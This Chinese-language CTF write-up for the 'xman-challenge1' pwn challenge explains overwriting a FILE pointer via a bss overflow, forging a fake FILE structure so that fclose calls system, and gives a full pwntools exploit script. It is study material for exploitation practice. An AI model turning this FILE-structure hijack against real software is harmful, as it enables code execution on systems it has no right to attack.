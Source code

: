 # 标题

> xman-challenge1

## **原理**

io_file

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**


 这是一道关于 io_file 非常简单的题
 
 ![](pic/1.png)
 
 这段程序会向位于bss段的变量s赋值，由上图我们可以发现，一个file指针也位于相差0
 x100个字节的bss段。我们可以通过s来覆盖stream的值，改成一个我们想要的值。
 
 那我们可以先这样写payload：
 
 ```
 payload = 'a' * 0x100 + p64(buf_addr) 
 ```
 
 这样肯定是不行的，但是我们可以先调试一下，看看他会crash在哪里～
 
 ![](pic/2.png)
 
 可以程序crash在了 cmp的语句，原因是`fault address 0x0` 因为现在 寄存器rdx的值为0x6161616161616161，是一个无效的地址。结下来我们看一下 rdx的值是怎么来的。
 
 ![](pic/3.png)
 
 是[rbx+0x88]中的内容，此时 rbx的值 就是buf_addr。
 
 rbx+0x88其实就是 fp->lock 当lock==0的时候，就会不进行cmp操作。
 
 ![](pic/4.png)
 
 由此 我们可以将payload的进化成下面这样：
 
 ```
 payload = ('\0' * 0x88 + p64(buf_addr)).ljust(0x100,'\0')+ p64(buf_addr)
 ```
 
 buf_addr是个有效地址，同时buf_addr+0x88地址上的值 也是 0。
 
 然后继续观察程序crash在了哪里～
 
 ![](pic/5.png)
 
 ![](pic/6.png)
 
 可见call操作的crash 此时rax的值是 0，在这里如果我们控制了rax的值 就可以进行我们想进行的操作，上图可以发现 rax就是[rbx+0xd8] rbx此时的值 就是buf_addr。 这样我们就构造了 下面的这个 payload。

```
pay = (('\0' * 0x10 + \
    p64(system) + \
    '\0' * 0x70 + \
    p64(buf_addr)).ljust(0xd8, '\0') + \
    p64(buf_addr)).ljust(0x100, '\0') + \
p64(buf_addr)
``` 

实际上，当我们调用 fclose的时候，就会触发。

完整exp：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

binary = './challenge1'
elf = ELF(binary)
libc = elf.libc

io = process(binary)
context.log_level = 'debug'
context.arch = elf.arch
context.terminal = ['tmux', 'splitw', '-h']

myu64 = lambda x: u64(x.ljust(8, '\0'))
ub_offset = 0x3c4b30

io.recvuntil(">")
io.sendline(str(1))

system = 0x400897
buf_addr = 0x6010c0

pay = (('\0' * 0x10 + \
    p64(system) + \
    '\0' * 0x70 + \
    p64(buf_addr)).ljust(0xd8, '\0') + \
    p64(buf_addr)).ljust(0x100, '\0') + \
p64(buf_addr)
io.sendline(pay)

io.recvuntil(">")
io.sendline('3')

io.interactive()

```


## **参考阅读**

[io_file](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction/)
